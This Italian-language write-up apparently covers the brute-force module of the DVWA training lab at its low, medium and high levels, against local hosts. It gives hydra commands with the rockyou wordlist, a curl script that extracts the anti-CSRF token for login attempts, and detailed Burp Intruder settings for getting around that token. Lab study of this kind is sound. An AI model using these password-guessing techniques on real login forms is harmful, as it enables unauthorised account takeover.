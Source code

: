 ## Brute force

- https://owasp.org/www-community/attacks/Brute_force_attack
- http://www.symantec.com/connect/articles/password-crackers-ensuring-security-your-password
- http://www.sillychicken.co.nz/Security/how-to-brute-force-http-forms-in-windows.html

### Brute force - Low

Exploit:

- recupera un PHPSESSID valido (`$1`)

- lancia:

```
$ hydra -l admin -P rockyou.txt \
	172.17.0.2 http-get-form \
	"/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie: PHPSESSID=$1; security=low"
```

parametri http-get-form: `"<RELATIVE PATH>:<PARAMETERS>:<FAILED LOGIN TEXT>:H=Cookie: <REQUEST COOKIES>"`

### Brute force - Medium

```
// Login failed
sleep( 2 );
```

Exploit:

- recupera un PHPSESSID valido (`$1`)

- lancia:

```
$ hydra -l admin -P rockyou.txt \
	localhost http-get-form \
	"/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie: PHPSESSID=$1; security=medium" \
	-c 3 -t 1
```

### Brute force - High

```
// Check Anti-CSRF token
checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' ); 

...

// Login failed
sleep( rand( 0, 3 ) );
```

Exploit:

È necessario prima fare una GET per recuperare il CSRF token (`user_token`) e successivamente fare una seconda GET includendo il valore recuperato.

**curl**

- recupera un PHPSESSID valido (`$1`)

- ottieni il CSRF token

```
CSRF=$( curl -s --cookie "PHPSESSID=$1; security=high" 'http://172.17.0.2/vulnerabilities/brute/' | \
	awk -F 'value=' '/user_token/ {print $2}' | \
	cut -d "'" -f2)
```

- usalo nella richiesta di login

```
curl \
	--cookie "PHPSESSID=$1; security=high" \
	-L \
	-G -d "username=admin&password=password&user_token=$CSRF&Login=Login" \
	http://172.17.0.2/vulnerabilities/brute
```

**BurpSuite**

Configura Burp

- imposta il proxy Burp sul browser
- esegui un tentativo di login
- prepara l'Intruder
	- `Proxy` -> `HTTP History` -> trova la richiesta tramite cui hai eseguito il tentativo di login
	- Click destro -> `Send to Intruder`
	- `Intruder` -> `2` -> `Positions`
	- `Attack type`: `Pitchfork`
	- `Clear §`
	- nella query string per username impostare admin
	- Seleziona il valore della password nella query string -> `Add §`
	- Seleziona il valore del csrf token nella query string -> `Add §`
	- `Intruder` -> `2` -> `Payloads`
	- `Payload Sets` -> `Payload Sets`: `1` -> `Payload type`: `Simple list`
	- `Payload Options [Simple list]` -> `Load ...` : scegli wordlist di password
	- `Payload Sets` -> `Payload Sets`: `2` -> `Payload type`: `Recursive grep`
	- `Intruder` -> `2` -> `Options`
	- `Attack Results` -> disabilita `Make unmodified baseline request`
	- impostare l'estrazione del messaggio di output
		- `Grep` - `Extract` -> `Add`
		- Start after expression: `<pre><br />`
		- End at fixed lenght: `35`; per l'estrazione di `Username and/or password incorrect.`
		- `Ok`
	- impostare l'estrazione del csrf token
		- `Grep` - `Extract` -> `Add`
		- Start after expression: `name='user_token' value='`
		- End at fixed lenght: `32`
		- `Ok`
	- `Intruder` -> `2` -> `Payloads` -> `Payload Options [Recursive grep]` -> `FROM [name='user_token' value='], length 32` (la seconda regola Extract grep creata)
	- da browser ricaricare la pagina di login e inserire il csrf token in `Payload Options [Recursive grep]` -> `Initial payload for first request`
- lancia l'Intruder
	- `Intruder` -> `Target` -> `Start attack`

N.B. Per aggirare lo sleep rand a seguito di un tentativo di login errato avresti bisogno di Burp Professional (`Intruder` -> `2` -> `Options` -> `Request Engine` -> `Throttle` -> `Fixed`). Quindi l'attacco con Burp Community potrebbe non individuare la password valida.
